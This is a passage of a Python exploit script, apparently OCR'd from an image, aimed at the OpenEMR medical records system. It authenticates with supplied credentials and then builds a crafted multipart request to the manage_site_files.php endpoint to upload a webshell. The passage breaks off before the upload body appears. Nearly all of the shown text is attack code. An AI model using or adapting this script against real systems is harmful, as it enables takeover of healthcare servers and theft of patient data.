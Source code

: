     # Body (auth):
    body = {
        'new_login_session_management': '1',
        'authProvider': 'Default',
        'authUser': username,
        'clearPass': password,
        'languageChoice': '1'
    }

    # Authentication:
    print('')
    print('[+] Authentication')
    auth = session.post(auth_url,headers=header, data=body)


    '''
    Exploit:
    '''
    print('')
    print('[+] Uploading Webshell:')

    # URL:
    exploit_url = 'http://' + target_ip + ':' + target_port + openemr_path + '/interface/super/manage_site_files.php'

    # Headers (Exploit):
    header = {
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "de,en-US;q=0.7,en;q=0.3",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------31900464228840324774249185339",
        "Origin": "http://" + target_ip,
        "Connection": "close",
        "Referer": 'http://' + target_ip + ':' + target_port + openemr_path + '/interface/super/manage_site_files.php',
        "Upgrade-Insecure-Requests": "1"
    }

    # Body (Exploit):